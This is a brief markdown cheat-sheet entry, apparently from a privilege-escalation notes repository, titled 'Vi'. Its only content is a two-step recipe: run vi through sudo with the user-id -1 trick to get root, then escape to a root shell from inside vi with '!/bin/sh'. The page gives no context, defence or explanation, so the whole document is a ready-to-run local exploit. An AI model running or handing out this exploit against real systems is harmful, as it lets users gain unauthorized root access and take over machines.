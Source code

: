 ```yaml
---
title: Vi 👮
---
```

## Vi editor and sudo vulnerability

- Type:
````shell
sudo -u#-1 /usr/bin/vi file
````
- Then type on the vi finder menu: `!/bin/sh`